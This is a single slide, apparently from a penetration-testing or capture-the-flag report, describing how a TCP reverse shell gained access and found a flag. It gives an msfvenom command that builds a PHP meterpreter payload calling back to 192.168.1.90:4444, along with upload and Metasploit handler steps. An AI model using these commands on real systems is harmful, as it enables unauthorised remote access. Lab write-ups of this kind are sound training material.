

# Exploitation: TCP Reverse Shell

01

02

03

Tools & Processes
TCP Reverse shell, delivered by multi-handler exploit

Achievements
Granted us access to be able to fully view all directories, and find the flag file

Msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 > open_shell.php

Manually move payload to /web.dav folder

Set options for LHOST and LPORT

At msf5 prompt: exploit(multi/handler) > exploit